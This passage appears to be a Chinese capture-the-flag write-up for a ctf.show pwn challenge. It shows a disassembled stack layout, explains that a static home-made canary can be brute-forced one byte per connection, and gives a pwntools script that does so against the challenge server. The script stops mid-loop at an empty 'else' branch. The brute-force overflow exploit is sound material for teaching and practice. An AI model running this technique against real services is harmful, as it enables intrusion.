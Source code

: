 ```
-00000054 nbytes          dd ?
-00000050 v2              db 32 dup(?)
-00000030 buf             db 32 dup(?)
-00000010 s1              dd ?
-0000000C v5              dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```



这边学习到面对这种情况是要进行爆破的，意思就是程序模拟实现了一种类Canary保护，但是这个值是不变的，静态的，所以可以通过反复连接程序，一次连接覆盖一次字节，去爆破所有字节上的值，爆破出来。因为比较程序只要求比较4位，所以最外层就是4的循环





exp如下：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

Canary = b''
ip = "pwn.challenge.ctf.show"
port = 28141
elf = ELF('./pwn')

for i in range(4):

    for j in range(256):

        r = remote(ip,port)

        r.recvuntil(b'How many bytes do you want to write to the buffer?\n>')

        r.sendline(b'1000')

        payload = b'a' * 0x20 + Canary + bytes(chr(j).encode())

        r.recvuntil(b'$ ')

        r.send(payload)

        data = r.recv()

        print("data:",data)

        if b"where is the flag?" in data:

            Canary += bytes(chr(j).encode())

            print('success!')

            print(Canary)

            break

        else :
```